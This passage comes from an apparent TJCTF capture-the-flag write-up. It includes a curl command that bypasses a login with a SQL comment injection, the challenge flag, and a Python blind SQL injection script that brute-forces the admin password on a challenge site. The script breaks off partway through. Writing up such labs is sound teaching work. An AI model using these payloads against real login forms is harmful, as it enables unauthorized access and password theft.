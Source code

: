 ```bash
curl 'https://login_sequel.tjctf.org/login' --data 'username=admin%27+%2F*+&password=123' --compressed
```

🏁 __tjctf{W0w_wHa1_a_SqL1_exPeRt!}__{:.spoiler}

## Weak Password

> It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

Someone said Blind Sql injection ? Just craft a simple python script and leak the password from the userandpassword table.

```python

#!/bin/python
import requests
import string

headers = {
    'authority': 'weak_password.tjctf.org',
    'cache-control': 'max-age=0',
    'upgrade-insecure-requests': '1',
    'origin': 'https://weak_password.tjctf.org',
    'content-type': 'application/x-www-form-urlencoded',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-user': '?1',
    'sec-fetch-dest': 'document',
    'referer': 'https://weak_password.tjctf.org/',
    'accept-language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!#$&()*+-./:;<=>?@[\]^_`{|}~"
diclen = len(dic)

found = False
result = ""

for i in range(1, 100):
    found = False
    for char in dic:
        print("[*] Trying {}{}".format(str(result), char))
        data = {
          'username': "admin",
          'password': '\' or (SELECT password FROM userandpassword WHERE username=\'admin\') LIKE \'{}{}%\' -- '.format(result, char)
        }
        response = requests.post('https://weak_password.tjctf.org/login', headers=headers, data=data)
        resp = str(response.content)

        if "Wrong username or password." in resp:
            print("wrong pass")

        if "Congratulations" in resp:
            result = result + char
```